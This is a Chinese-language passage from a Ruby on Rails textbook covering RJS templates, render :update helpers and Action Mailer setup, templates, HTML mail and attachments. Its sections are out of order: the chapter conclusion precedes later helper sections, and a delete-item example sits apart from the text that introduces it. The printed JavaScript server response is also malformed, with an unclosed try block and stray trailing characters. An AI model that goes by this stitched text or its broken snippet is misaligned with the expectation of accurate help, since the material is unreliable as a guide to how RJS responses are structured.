    :url=>{:action=>:todo_pending, :id=>@user})%>
```

有三种视觉效果可以指定为 *toggle*（切换）效果。这些是可逆的效果对，用于显示/隐藏元素。如果您指定切换效果，生成的 JavaScript 将自动处理状态之间的切换。可用的切换效果有

- toggle_appear：使用 appear 和 fade 进行切换
- toggle_slide：使用 slide_down 和 slide_up 进行切换
- toggle_blind：使用 blind_down 和 blind_up 进行切换

您可以在几乎任何可以提供 JavaScript 代码片段的地方使用 visual_effect 辅助方法。

### 23.3 RJS 模板

到目前为止，我们几乎完全是基于在 XHR 调用期间从服务器返回 HTML 的角度来介绍 Prototype 和 Script.aculo.us。这些 HTML 几乎总是用于更新某个 DOM 元素的 innerHTML 属性，以改变页面的状态。事实证明，还有另一种强大的技术可以使用，它通常可以解决那些原本需要客户端大量复杂 JavaScript 才能解决的问题：您的 XHR 调用可以返回在浏览器中执行的 JavaScript。

事实上，这种模式在 2005 年变得如此普遍，以至于 Rails 团队想出了一种在服务器端对其进行编码的方式，就像他们使用 .rhtml 文件处理 HTML 输出一样。这种技术被称为 RJS 模板。然而，随着人们开始使用 RJS 模板，他们意识到他们希望拥有模板提供的相同能力，但能够在控制器内联实现。因此，render :update 构造应运而生。

什么是 RJS 模板？它只是一个存储在 app/views 层次结构中、带有 .rjs 扩展名的文件。它包含向浏览器发出 JavaScript 以执行的命令。模板本身的解析方式与 .rhtml 模板相同：当收到一个动作请求时，调度程序会尝试找到一个匹配的 .rhtml 模板。如果请求来自 XHR，调度程序将优先查找 .rjs 模板。模板被解析，JavaScript 被生成并返回给浏览器，最终在那里执行。

RJS 模板可用于在多个页面上提供标准交互行为，或最大限度地减少给定页面上嵌入的自定义 JavaScript 代码量。RJS 的主要使用模式之一是引发多个客户端效果作为单个操作的结果。

让我们回到前面的拖放示例。当用户将待办事项从一个列表拖到另一个列表时，该项目的 id 会发送到服务器。服务器必须通过将其从原始列表中移除并添加到新列表中来重新分类该项目。这意味着服务器随后必须在视图上更新两个列表。但是，对于给定的请求，服务器只能返回一个响应。


这意味着你可以将页面结构设计得让两个拖放目标都包含在一个更大的元素中，并在更新时更新整个父元素。你也可以将结构数据返回给一个复杂的客户端JavaScript函数，由该函数解析数据并将其分配给两个拖放目标，或者使用RJS在客户端执行多个JavaScript调用，每个调用用于更新一个拖放目标，然后重置新列表的可排序性。

以下是服务器端`todo_pending`和`todo_completed`方法的代码。当用户完成一个项目时，它会被分配一个完成日期。当用户将其移出已完成状态时，完成日期被设置为nil。

```ruby
# pragforms/app/controllers/user_controller.rb

def todo_completed
  update_todo_completed_date Time.now
end

def todo_pending
  update_todo_completed_date nil
end

private

def update_todo_completed_date(newval)
  @user = User.find(params[:id])
  @todo = @user.todos.find(params[:todo])
  @todo.completed = newval
  @todo.save!
  @completed_todos = @user.completed_todos
  @pending_todos = @user.pending_todos
  render :update do |page|
    page.replace_html 'pending_todos', :partial => 'pending_todos'
    page.replace_html 'completed_todos', :partial => 'completed_todos'
    page.sortable "pending_todo_list",
        :url=>{:action=>:sort_pending_todos, :id=>@user}
  end
end
```

在执行大多数控制器都包含的标准CRUD操作之后，你可以看到新的`render :update do |page|`部分。当你调用`render :update`时，它会生成一个JavaScriptGenerator实例，用于创建你将发送回浏览器的代码。你传入一个代码块，该代码块使用生成器来完成工作。

在我们的例子中，我们对生成器进行了三次调用：两次用于更新页面上的拖放目标列表，一次用于重置待办事项的可排序性。我们必须执行最后一步，因为当我们覆盖原始版本时，绑定到它的任何行为都会消失，如果想让更新后的版本表现得一样，我们必须重新创建它。

对`page.replace_html`的调用接受两个参数：要更新的元素的id（或id数组），以及一个定义渲染什么的选项哈希。第二个选项哈希可以是你在普通`render`调用中传递的任何内容。这里，我们渲染的是部分模板（partials）。

对`page.sortable`的调用也接受要设为可排序的元素的id，后面跟着原始`sortable_element`辅助方法的所有可能选项。

以下是服务器返回的响应，已传递回浏览器（为了适应格式，进行了轻微的重新排版）。

```javascript
try {
  Element.update("pending_todos", "<ul id='pending_todo_list'>
    <li class="pending_todo"  id='todo_38'>Build a house</li>
    <script type="text/javascript">\n//<![CDATA[\nnew Draggable("todo_38",
      {ghosting:true, revert:true})\n//]]>\n</script>
    <li class="pending_todo"  id='todo_39'>Read the Hugo Award Winners</li>
    <script type="text/javascript">\n//<![CDATA[\nnew Draggable("todo_39",
      {ghosting:true, revert:true})\n//]]>\n</script>\n   \n</ul>\n");
  // . . .
  Sortable.create("pending_todo_list",
    {onUpdate:function(){new AJAX.Request('/user/sort_pending_todos/10',
      {asynchronous:true,  evalScripts:true,
       parameters:Sortable.serialize("pending_todo_list")})}});'); throw e
}]>
```

这个响应是纯JavaScript；客户端的Prototype辅助方法必须设置为执行JavaScript，否则客户端将不会发生任何事情。它用新的HTML更新了拖放目标，这些HTML是在服务器端渲染成字符串格式的。然后它在待办事项之上创建了新的可排序元素。代码被包装在一个`try`/`catch`块中。如果客户端出现问题，会弹出一个JavaScript警告框，并尝试描述问题。

如果你不喜欢`render :update`的内联风格，可以使用原始版本，即`.rjs`模板。如果你切换到模板风格，操作代码会简化为：

```ruby
def update_todo_completed_date(newval)
  @user = User.find(params[:id])
  @todo = @user.todos.find(params[:todo])
  @todo.completed = newval
  @todo.save!
  @completed_todos = @user.completed_todos
  @pending_todos = @user.pending_todos
end
```

然后，在`app/views/user/`目录下添加一个名为`todo_completed.rjs`的文件，内容如下：

```ruby
page.replace_html 'pending_todos', :partial => 'pending_todos'
page.replace_html 'completed_todos', :partial => 'completed_todos'
page.sortable "pending_todo_list",
  :url=>{:action=>:sort_pending_todos, :id=>@user}
```

Rails会自动发现该文件，创建一个名为`page`的JavaScriptGenerator实例并将其传入。结果将被渲染回客户端，与内联版本一样。

让我们分类查看可用的RJS辅助方法。

#### 编辑数据

你可能有几个页面元素，其数据需要根据XHR调用进行更新。如果你只需要替换元素内部的数据，可以使用`replace_html`。如果你需要替换整个元素，包括其标签，则需要使用`replace`。

这两个方法都接受一个id和一个选项哈希。这些选项与你在任何普通的`render`调用中用于将文本渲染回客户端时使用的选项相同。然而，`replace_html`只是将指定元素的`innerHTML`设置为渲染的文本，而`replace`首先删除原始元素，然后在它的位置插入渲染的文本。

在这个例子中，我们的控制器混合了使用RJS在成功编辑后更新页面，或者在失败时使用标准的`render`重绘表单。

```ruby
def edit_user
  @user = User.find(params[:id])
  if @user.update_attributes(params[:user])
    render :update do |page|
      page.replace_html "user_#{@user.id}", :partial => "_user"
    end
  else
    render :action => 'edit'
  end
end
```

##### 插入数据

使用`insert_html`方法插入数据。此方法接受三个参数：插入的位置、目标元素的id，以及用于渲染要插入文本的选项。位置参数可以是`update` Prototype辅助方法接受的任何位置选项（`:before`、`:top`、`:bottom`和`:after`）。

这是一个向待办事项列表添加项目的例子。表单可能如下所示：

```erb
<ul id="todo_list">
  <% for item in @todos %>
    <li><%= item.name %></li>
  <% end %>
</ul>

<% form_remote_tag :url => {:action => 'add_todo'} do %>
  <%= text_field 'todo', 'name' %>
  <%= submit_tag 'Add...' %>
<% end %>
```

在服务器端，你会存储待办事项，然后将新值添加到现有列表的底部。

```ruby
def add_todo
  todo = Todo.new(params[:todo])
  if todo.save
    render :update do |page|
      page.insert_html :bottom, 'todo_list', "<li>#{todo.name}</li>"
    end
  end
end
```

##### 显示/隐藏数据

在XHR调用完成后，你经常需要切换DOM元素的可见性。显示和隐藏进度指示器就是一个很好的例子；在编辑按钮和保存按钮之间切换是另一个例子。有三个主要方法可以用来处理这些状态：`show`、`hide`和`toggle`。每个方法都接受一个单独的id或一个id数组来进行修改。

例如，当使用AJAX调用而不是标准HTML请求时，将值分配给`flash[:notice]`的标准Rails模式不会起任何作用，因为显示`flash`的代码仅在页面第一次渲染时执行。相反，你可以使用RJS来显示和隐藏通知。

```ruby
def add_todo
  todo = Todo.new(params[:todo])
  if todo.save
    render :update do |page|
      page.insert_html :bottom, 'todo_list',
                       "<li>#{todo.name}</li>"
      page.replace_html 'flash_notice', "Todo added: #{todo.name}"
      page.show 'flash_notice'
    end
  end
end
```

或者，你可以选择通过调用`remove`从页面中完全删除一个元素。成功执行`remove`意味着指定的节点将从页面中完全移除。这不仅仅意味着隐藏；元素从DOM中被移除，并且无法检索。

这里再次给出一个我们的待办事项列表的例子，但现在单个项目有一个id和一个删除按钮。删除将发起一个XHR调用以从数据库中删除该项目，控制器将通过发出调用来删除单个列表项作为响应。


## 23.4  结论

AJAX 的全部意义在于让 Web 应用程序感觉更像交互式客户端应用程序，而更少像一篇物理学白皮书：它关乎打破页面的霸权，并用数据光辉的新时代取而代之。这些数据不必以 XML 形式在网线上来回传输（无论 Jesse James Garrett 在 2005 年 2 月怎么说）。它只意味着用户可以与其数据进行适当规模的交互，而非遵循页面这种任意的概念。

Rails 在将 AJAX 集成到常规开发流程方面做得非常出色。得益于各种辅助方法的神奇之处，创建一个 AJAX 链接与创建一个普通链接一样简单。困难的是，且将在很长一段时间内持续困难的，是让 AJAX 高效且安全地工作。因此，尽管能够依赖 Rails 辅助方法为你隐藏大部分 JavaScript 代码是件好事，但了解实际上为你执行了什么也同样重要。

请记住：使用 AJAX 是为了让你的用户受益！你的座右铭应该与医生相同：首先，不造成伤害。在能改善用户生活的地方使用 AJAX，而不是在只会让他们困惑或更难完成任务的地方使用它。遵循这条简单的规则，Rails 上的 AJAX 就能发挥奇妙效果。

# 选择元素

如果你需要直接访问页面元素，可以选择一个或多个元素来调用其方法。最简单的方法是通过 id 查找它们。你可以使用 [] 语法来做到这一点；它接受一个 id 并返回底层元素的代理。然后你可以调用返回实例上存在的任何方法。这在功能上等同于在客户端使用 Prototype 的 $ 方法。

结合 Prototype 最新版本允许你将几乎任何调用链接到对象的事实，[] 语法被证明是与页面元素交互的一种非常强大的方式。下面是另一种在成功添加待办事项项后显示 flash 通知的方式。

```ruby
def add_todo
  todo = Todo.new(params[:todo])
  if todo.save
    render :update do |page|
      page.insert_html :bottom, 'todo_list', "<li>#{todo.name}</li>"
      page['flash_notice'].update("Added todo: #{todo.name}").show
    end
  end
end
```

另一个选项是选择所有使用某些 CSS 类的元素。将一个或多个 CSS 类传递给 `select`；所有在类列表中拥有一个或多个指定类的 DOM 元素将以数组形式返回。然后你可以直接操作该数组，或者传递一个块来为你处理迭代。

# 直接 JavaScript 交互

如果你需要渲染你创建的原始 JavaScript，而不是使用此处描述的辅助方法语法，你可以使用 << 方法来做到这一点。这简单地将你给它的任何值附加到响应中；它将与响应的其余部分一起立即求值。如果你提供的字符串不是可执行的 JavaScript，用户将得到 RJS 错误对话框。

```ruby
render :update do |page|
  page << "cur_todo = #{todo.id};"
  page << "show_todo(#{todo.id});"
end
```

如果你需要调用现有的 JavaScript 函数，而不是渲染原始 JavaScript，请使用 `call` 方法。`call` 接受一个 JavaScript 函数的名称（该函数必须已存在于浏览器中的页面作用域）和一个可选的参数数组传递给它。函数调用将在响应被解析时执行。同样，如果你只需要为变量赋值，请使用 `assign`，它接受变量的名称和要赋给它的值。

```ruby
render :update do |page|
  page.assign 'cur_todo', todo.id
  page.call 'show_todo', todo.id
end
```

`call` 有一个针对最常见情况（调用 JavaScript `alert` 函数）的特殊快捷版本。使用 RJS 的 `alert` 方法，你传递一条消息，它将立即渲染在（总是烦人的）JavaScript 警告对话框中。有一个类似的 `assign` 快捷版本，叫做 `redirect_to`。这个方法接受一个 URL，并仅仅将其赋给标准属性 `window.location.href`。

最后，你可以在浏览器中创建一个定时器，以暂停或延迟你发送的任何脚本的执行。使用 `delay` 方法，你传递一个要暂停的秒数和一个要执行的块。渲染后的 JavaScript 将创建一个定时器，等待那么多秒，然后执行一个包装你传递的块的函数。在这个例子中，我们将显示添加待办事项项的通知，等待三秒钟，然后从 `<div>` 中移除消息并将其隐藏。

```ruby
def add_todo
  todo = Todo.new(params[:todo])
  if todo.save
    render :update do |page|
      page.insert_html :bottom, 'todo_list',
        "<li>#{todo.name}</li>"
      page.replace_html 'flash_notice', "Todo added: #{todo.name}"
      page.show 'flash_notice'
      page.delay(3) do
        page.replace_html 'flash_notice', ''
        page.hide 'flash_notice'
      end
    end
  end
end
```

# Script.aculo.us 辅助方法

除了所有 Prototype 和原始 JavaScript 辅助方法外，RJS 还提供了对 Script.aculo.us 大多数函数的支持。目前最常用的是 `visual_effect` 方法。这是对 Script.aculo.us 提供的各种视觉效果的直接封装。你传递所需视觉效果的名称、要执行效果的元素的 DOM id，以及一个包含标准效果选项的哈希。

在这个例子中，我们在显示 flash 通知后为其添加脉动效果，然后使其淡出以移除它。

```ruby
def add_todo
  todo = Todo.new(params[:todo])
  if todo.save
    render :update do |page|
      page.insert_html :bottom, 'todo_list',
        "<li>#{todo.name}</li>"
      page.replace_html 'flash_notice', "Todo added: #{todo.name}"
      page.show 'flash_notice'
      page.visual_effect :pulsate, 'flash_notice'
      page.delay(3) do
        page.replace_html 'flash_notice', ''
        page.visual_effect :fade, 'flash_notice'
      end
    end
  end
end
```

你还可以操作页面上项目的排序和拖放特性。要创建一个可排序的列表，请使用 `sortable` 方法，并传递要排序列表的 id 以及包含所需所有选项的哈希。`draggable` 创建一个可以移动的元素，而 `drop_receiving` 创建一个拖放目标元素。

```erb
<ul id="todo_list">
  <% for item in @todos %>
  <li id="todo_<%= item.id %>"><%= item.name %>
    <%= link_to_remote 'Delete',
                       :url => {:action => 'delete_todo',
                                :id => item} %>
  </li>
  <% end %>
</ul>
<% form_remote_tag :url => {:action => 'add_todo'} do %>
  <%= text_field 'todo', 'name' %>
  <%= submit_tag 'Add...' %>
<% end %>
```

```ruby
def delete_todo
  if Todo.destroy(params[:id])
    render :update do |page|
      page.remove "todo_#{params[:id]}"
    end
  end
end
```

# 第 24 章
## Action Mailer

Action Mailer 是一个简单的 Rails 组件，允许你的应用程序发送和接收电子邮件。使用 Action Mailer，你的在线商店可以发送订单确认，你的事件跟踪系统可以自动记录提交到特定电子邮件地址的问题。

### 24.1 发送电子邮件

在你开始发送电子邮件之前，你需要配置 Action Mailer。它的默认配置在某些主机上有效，但你无论如何都想创建自己的配置，只是为了让它成为应用程序的一个明确部分。

#### 电子邮件配置

电子邮件配置是 Rails 应用程序环境的一部分。如果你想在开发、测试和生产中使用相同的配置，请将配置添加到 `config` 目录中的 `environment.rb` 文件；否则，将不同的配置添加到 `config/environments` 目录中的相应文件中。

你首先需要决定希望如何投递邮件。

```ruby
config.action_mailer.delivery_method = :smtp | :sendmail | :test
```

当你希望 Action Mailer 尝试投递电子邮件时，使用 `:smtp` 和 `:sendmail` 选项。显然，在生产环境中你会想使用这些方法之一。

`:test` 设置非常适合单元测试和功能测试。电子邮件将不会被投递，而是会附加到一个数组（可通过属性 `ActionMailer::Base.deliveries` 访问）。这是测试环境中的默认投递方法。有趣的是，在开发模式下的默认设置是 `:smtp`。如果你希望你的开发代码投递电子邮件，这很好。如果你宁愿在开发模式下禁用电子邮件投递，请编辑 `config/environments` 目录中的 `development.rb` 文件，并添加这一行


config.action_mailer.delivery_method = :test

`:sendmail` 设置将邮件传递委托给您本地系统的 `sendmail` 程序，该程序假定位于 `/usr/sbin`。这种传递机制的可移植性不是特别好，因为 `sendmail` 在不同操作系统上并不总是安装在这个目录中。它还依赖于您本地的 `sendmail` 支持 `-i` 和 `-t` 命令选项。

您可以通过保持此选项的默认值 `:smtp` 来获得更好的可移植性。但是，如果您这样做，则需要指定一些额外的配置，以告诉 Action Mailer 在哪里找到 SMTP 服务器来处理您的出站电子邮件。这可能是运行您的 Web 应用程序的机器，也可能是另一台计算机（如果您在非公司环境中运行 Rails，则可能是您的 ISP 的计算机）。您的系统管理员将能够为您提供这些参数的设置。您也可以从自己的邮件客户端配置中确定它们。

```
config.action_mailer.server_settings = {
  :address        => "domain.of.smtp.host.net",
  :port           => 25,
  :domain         => "domain.of.sender.net",
  :authentication => :login,
  :user_name      => "dave",
  :password       => "secret"
}
```

- **:address => 和 :port =>**
    确定您将使用的 SMTP 服务器的地址和端口。它们默认分别为 `localhost` 和 `25`。
- **:domain =>**
    邮件程序在向服务器标识自身时应使用的域。这称为 HELO 域（因为 HELO 是客户端向服务器发送以建立连接的命令）。您通常应该使用发送电子邮件的机器的顶级域名，但这取决于您的 SMTP 服务器的设置（有些不检查，有些则检查以尝试减少垃圾邮件和所谓的开放中继问题）。
- **:authentication =>**
    选项为 `:plain`、`:login` 或 `:cram_md5` 之一。您的服务器管理员将帮助您选择正确的选项。目前没有从 Rails 使用 TLS (SSL) 连接到邮件服务器的方法。如果您的服务器不需要身份验证，则应省略此参数。如果您确实省略了此参数，也请省略（或注释掉） `:user_name` 和 `:password` 选项。
- **:user_name => 和 :password =>**
    如果设置了 `:authentication`，则这些选项是必需的。

其他配置选项适用于所有传递机制。

```
config.action_mailer.perform_deliveries = true | false
```

如果 `perform_deliveries` 为 `true`（默认值），邮件将正常发送。如果为 `false`，发送邮件的请求将被静默忽略。这在测试时禁用电子邮件可能很有用。

```
config.action_mailer.raise_delivery_errors = true | false
```

如果 `raise_delivery_errors` 为 `true`（默认值），在最初发送电子邮件时发生的任何错误都将引发异常返回给您的应用程序。如果为 `false`，错误将被忽略。请记住，并非所有电子邮件错误都是即时的——电子邮件可能在您发送后三天才被退回，而您的应用程序（您希望）到那时已经继续处理其他事务了。

设置用于新电子邮件的字符集：

```
config.action_mailer.default_charset = "utf-8"
```

与所有配置更改一样，如果您更改任何环境文件，都需要重新启动应用程序。

##### 发送电子邮件

现在我们已经配置好了所有内容，让我们编写一些代码来发送电子邮件。

到现在，Rails 有一个用于创建邮件程序的生成器脚本，您应该不会感到惊讶。可能令人惊讶的是它创建的位置。在 Rails 中，邮件程序是一个存储在 `app/models` 目录中的类。它包含一个或多个方法，每个方法对应一个电子邮件模板。为了创建电子邮件正文，这些方法反过来使用视图（就像控制器操作使用视图来创建 HTML 和 XML 一样）。因此，让我们为我们的商店应用程序创建一个邮件程序。我们将用它来发送两种不同类型的电子邮件：一种是在下订单时，另一种是在订单发货时。`generate mailer` 脚本接受邮件程序类的名称，以及电子邮件操作方法的名称。

```
depot> ruby script/generate mailer OrderMailer confirm sent
      exists  app/models/
      exists  app/views/order_mailer
      exists  test/unit/
  create  test/fixtures/order_mailer
  create  app/models/order_mailer.rb
  create  test/unit/order_mailer_test.rb
  create  app/views/order_mailer/confirm.rhtml
  create  test/fixtures/order_mailer/confirm
  create  app/views/order_mailer/sent.rhtml
  create  test/fixtures/order_mailer/sent
```

请注意，我们在 `app/models` 中创建了一个 `OrderMailer` 类，并在 `app/views/order_mailer` 中创建了两个模板文件，每种电子邮件类型一个。（我们还创建了一堆与测试相关的文件——我们将在后面的第 24.3 节 *测试电子邮件*，第 580 页中讨论这些文件。）

邮件程序类中的每个方法负责为发送特定电子邮件设置环境。它通过设置包含电子邮件标题和正文数据的实例变量来做到这一点。让我们在深入细节之前看一个例子。以下是为我们的 `OrderMailer` 类生成的代码。

```
class OrderMailer < ActionMailer::Base
  def confirm(sent_at = Time.now)
    @subject    = 'OrderMailer#confirm'
    @body       = {}
    @recipients = ''
    @from       = ''
    @sent_on    = sent_at
    @headers    = {}
  end

  def sent(sent_at = Time.now)
    @subject    = 'OrderMailer#sent'
    # ... same as above ...
  end
end
```

除了我们稍后将讨论的 `@body` 之外，所有实例变量都设置了即将创建的电子邮件的信封和标题：

- **@bcc = *数组或字符串***
    密送收件人，使用与 `@recipients` 相同的格式。
- **@cc = *数组或字符串***
    抄送收件人，使用与 `@recipients` 相同的格式。
- **@charset = *字符串***
    电子邮件的 `Content-Type` 标题中使用的字符集。默认为 `server_settings` 中的 `default_charset` 属性，或 `"utf-8"`。
- **@from = *数组或字符串***
    出现在 `From:` 行上的一个或多个电子邮件地址，使用与 `@recipients` 相同的格式。您可能希望在这些地址中使用与您在 `server_settings` 中配置的域相同的域名。
- **@headers = *哈希***
    标题名称/值对的哈希，用于向电子邮件添加任意标题行。
    `@headers["Organization"] = "Pragmatic Programmers, LLC"`
- **@recipients = *数组或字符串***
    一个或多个收件人电子邮件地址。这些可以是简单的地址，如 `dave@pragprog.com`，或一些标识短语后跟尖括号中的电子邮件地址。
    `@recipients = [ "andy@pragprog.com", "Dave Thomas <dave@pragprog.com>" ]`
- **@sent_on = *时间***
    一个 `Time` 对象，用于设置电子邮件的 `Date:` 标题。如果未指定，将使用当前日期和时间。
- **@subject = *字符串***
    电子邮件的主题行。

`@body` 是一个哈希，用于将值传递给包含电子邮件的模板。我们稍后会看到它是如何工作的。

##### 电子邮件模板

生成脚本在 `app/views/order_mailer` 中创建了两个电子邮件模板，每个 `OrderMailer` 类中的操作一个。这些是普通的 ERB rhtml 文件。我们将使用它们来创建纯文本电子邮件（我们稍后会看到如何创建 HTML 电子邮件）。与我们用于创建应用程序网页的模板一样，这些文件包含静态文本和动态内容的组合。我们可以自定义 `confirm.rhtml` 中的模板；这是用于确认订单的电子邮件。

```
Download e1/mailer/app/views/order_mailer/confirm.rhtml

Dear <%= @order.name %>

Thank you for your recent order from The Pragmatic Store.

You ordered the following items:

<%= render(:partial => "./line_item", :collection => @order.line_items) %>

We'll send you a separate e-mail when your order ships.
```

这个模板中有一个小问题。我们必须给 `render` 提供模板的显式路径（前导的 `./`），因为我们不是从真正的控制器调用视图，Rails 无法猜测默认位置。

呈现订单行项的局部模板格式化单行，包含项目数量和标题。因为我们在模板中，所有常规的辅助方法，如 `truncate`，都是可用的。

```
Download e1/mailer/app/views/order_mailer/_line_item.rhtml

<%= sprintf("%2d x %s",
             line_item.quantity,
             truncate(line_item.product.title, 50)) %>
```


##### 生成电子邮件

现在我们已经设置好了模板并定义了邮件发送方法，可以在常规控制器中使用它们来创建和/或发送电子邮件。但是，我们不会直接调用该方法。这是因为在Rails中有两种不同的方式可以从内部创建电子邮件：可以将电子邮件创建为一个对象，也可以将电子邮件投递给其收件人。要访问这些功能，我们需要调用名为`create_xxx`和`deliver_xxx`的类方法，其中`xxx`是我们在`OrderMailer`中编写的实例方法的名称。我们将希望实例方法接收的参数传递给这些类方法。例如，要发送订单确认电子邮件，我们可以调用

`OrderMailer.deliver_confirm(order)`

为了在不实际发送任何电子邮件的情况下进行实验，我们可以编写一个简单的操作来创建一个电子邮件并在浏览器窗口中显示其内容。

```ruby
class TestController < ApplicationController
  def create_order
    order = Order.find_by_name("Dave Thomas")
    email = OrderMailer.create_confirm(order)
    render(:text => "<pre>" + email.encoded + "</pre>")
  end
end
```

`create_confirm`调用会触发我们的`confirm`实例方法来设置电子邮件的详细信息。我们的模板用于生成正文文本。正文以及头部信息被添加到一个新建的电子邮件对象中，`create_confirm`返回该对象。该对象是`TMail::Mail`类的一个实例。

> TMail是Minero Aoki出色的电子邮件库；Rails自带其一个版本。

`email.encoded`调用返回我们刚刚创建的电子邮件的文本：我们的浏览器将显示类似以下内容

```
Date: Thu, 12 Oct 2006 12:17:36 -0500
From: orders@pragprog.com
To: dave@pragprog.com
Subject: Pragmatic Store Order Confirmation
Mime-Version: 1.0
Content-Type: text/plain; charset=utf-8
```

Dear Dave Thomas

Thank you for your recent order from The Pragmatic Store.

You ordered the following items:

1 x Programming Ruby, 2nd Edition
1 x Pragmatic Project Automation

We'll send you a separate e-mail when your order ships.

如果我们想要发送电子邮件，而不仅仅是创建一个电子邮件对象，我们可以调用`OrderMailer.deliver_confirm(order)`。

##### 发送HTML格式的电子邮件

创建HTML电子邮件的一种方法是创建一个为电子邮件正文生成HTML的模板，然后在投递消息之前将`TMail::Mail`对象的内容类型设置为`text/html`。

我们将首先在`OrderMailer`中实现`sent`方法。（实际上，此方法与原始的`confirm`方法之间有如此多的共性，我们可能会将两者重构为使用一个共享的辅助方法。）

```ruby
class OrderMailer < ActionMailer::Base
  def sent(order)
    @subject       = "Pragmatic Order Shipped"
    @recipients    = order.email
    @from          = 'orders@pragprog.com'
    @sent_on       = Time.now
    @body["order"] = order
  end
end
```

接下来，我们将编写`sent.rhtml`模板。

```html
<h3>Pragmatic Order Shipped</h3>
<p>
  This is just to let you know that we've shipped your recent order:
</p>
<table>
  <tr><th colspan="2">Qty</th><th>Description</th></tr>
  <%= render(:partial => "./html_line_item", :collection => @order.line_items) %>
</table>
```

我们需要一个生成表格行的新部分模板。这放在文件`_html_line_item.rhtml`中。

```html
<tr>
  <td><%= html_line_item.quantity %></td>
  <td>&times;</td>
  <td><%= html_line_item.product.title %></td>
</tr>
```

最后，我们将使用一个操作方法来测试此功能，该方法渲染电子邮件，将内容类型设置为`text/html`，并调用邮件发送器来投递它。

```ruby
class TestController < ApplicationController
  def ship_order
    order = Order.find_by_name("Dave Thomas")
    email = OrderMailer.create_sent(order)
    email.set_content_type("text/html")
    OrderMailer.deliver(email)
    render(:text => "Thank you...")
  end
end
```

生成的电子邮件将类似于下一页的图24.1。



图24.1：HTML格式的电子邮件

##### 发送多种内容类型

有些人更喜欢以纯文本格式接收电子邮件，而另一些人喜欢HTML电子邮件的外观。Rails使得发送包含替代内容格式的电子邮件变得容易，允许用户（或他们的电子邮件客户端）决定他们希望查看什么格式。

在前面的部分中，我们通过生成HTML内容然后将内容类型设置为`text/html`来创建了HTML电子邮件。事实证明，Rails有一个约定可以自动完成所有这些工作，甚至更多。

我们`sent`操作的视图文件名为`sent.rhtml`。这是Rails的标准命名约定。但是，对于电子邮件模板，还有更多的命名魔法。如果你将模板文件命名为

`name.content.type.rhtml`

Rails将自动将电子邮件的内容类型设置为文件名中的内容类型。对于之前的示例，我们可以将视图文件名设置为`sent.text.html.rhtml`，Rails会自动将其作为HTML电子邮件发送。但不仅如此。如果你创建多个名称相同但文件名中嵌入了不同内容类型的模板，Rails会在一封电子邮件中发送所有这些模板，并安排内容以便电子邮件客户端能够区分每种格式。因此，通过创建`sent.text.plain.rhtml`和`sent.text.html.rhtml`模板，我们可以让用户选择以文本或HTML形式查看我们的电子邮件。

让我们尝试一下。我们将设置一个新的操作。

```ruby
def survey
  order = Order.find_by_name("Dave Thomas")
  email = OrderMailer.deliver_survey(order)
  render(:text => "E-Mail sent")
end
```

我们将在`app/models`目录中的`order_mailer.rb`中为`survey`添加支持。

```ruby
def survey(order)
  @subject      = "Pragmatic Order: Give us your thoughts"
  @recipients   = order.email
  @from         = 'orders@pragprog.com'
  @sent_on      = Time.now
  @body["order"] = order
end
```

我们将创建两个模板。这是纯文本版本，位于文件`survey.text.plain.rhtml`中。

```
Download e1/mailer/app/views/order_mailer/survey.text.plain.rhtml

Dear <%= @order.name %>

You recently placed an order with our store.

We were wondering if you'd mind taking the time to visit http://some.survey.site and rate your experience.

Many thanks
```

这是`survey.text.html.rhtml`，生成HTML电子邮件的模板。

```html
<h3>A Pragmatic Survey</h3>

<p>
  Dear <%= @order.name %>
</p>

<p>
  You recently placed an order with our store.
</p>

<p>
  We were wondering if you'd mind taking the time to
  visit <a href="http://some.survey.site">our survey site</a>
  and rate your experience.
</p>

<p>
  Many thanks.
</p>
```

你也可以在Action Mailer方法中使用`part`方法来显式创建多种内容类型。有关详细信息，请参阅ActionMailer::Base的Rails API文档。

##### 发送附件

当你发送包含多种内容类型的电子邮件时，Rails实际上会为每种内容类型创建一个单独的电子邮件附件。这一切都在幕后发生。但是，你也可以手动将自己的附件添加到电子邮件中。

让我们创建一个不同版本的确认电子邮件，将封面图像作为附件发送。该操作名为`ship_with_images`。

```ruby
def ship_with_images
  order = Order.find_by_name("Dave Thomas")
  email = OrderMailer.deliver_ship_with_images(order)
  render(:text => "E-Mail sent")
end
```


该模板与原始的 `sent.rhtml` 文件相同。

```
Download e1/mailer/app/views/order_mailer/sent.rhtml
<h3>Pragmatic Order Shipped</h3>
<p>
  This is just to let you know that we've shipped your recent order:
</p>
<table>
  <tr><th colspan="2">Qty</th><th>Description</th></tr>
  <%= render(:partial => "./html_line_item", :collection => @order.line_items) %>
</table>
```

所有有趣的工作都发生在邮件发送类中的 `ship_with_images` 方法里。

```
Download e1/mailer/app/models/order_mailer.rb
def ship_with_images(order)
  @subject       = "Pragmatic Order Shipped"
  @recipients    = order.email
  @from          = 'orders@pragprog.com'
  @sent_on       = Time.now
  @body["order"] = order

  part :content_type => "text/html",
       :body => render_message("sent", :order => order)

  order.line_items.each do |li|
    image = li.product.image_location
    content_type = case File.extname(image)
    when ".jpg", ".jpeg"; "image/jpeg"
    when ".png";          "image/png"
    when ".gif";          "image/gif"
    else;                 "application/octet-stream"
    end

    attachment :content_type => content_type,
               :body        => File.read(File.join("public", image)),
               :filename    => File.basename(image)
  end
end
```

请注意，这一次我们使用 `part` 指令显式地渲染消息，强制其类型为 `text/html`，其正文为模板渲染的结果。^[2] 然后，我们遍历订单中的行项目。对于每个项目，我们确定图像文件的名称，根据文件扩展名构造 mime 类型，并将文件作为内联附件添加。

> 2. 在撰写本文时，Rails 中存在一个轻微的错误。如果消息包含附件，并且你使用 `xxx.text.html.rhtml` 约定来命名默认模板，Rails 将不会渲染该模板。通过 `part` 显式添加内容则可以正常工作。

### 24.2 接收电子邮件

Action Mailer 使得编写处理传入电子邮件的 Rails 应用程序变得容易。不幸的是，你还需要找到一种方法从服务器环境中获取适当的电子邮件并将其注入应用程序；这需要更多工作。

在应用程序内部处理电子邮件是容易的部分。在你的 Action Mailer 类中，编写一个名为 `receive` 的实例方法，该方法接受一个参数。这个参数将是一个对应于传入电子邮件的 `TMail::Mail` 对象。你可以提取字段、正文文本和/或附件，并在应用程序中使用它们。

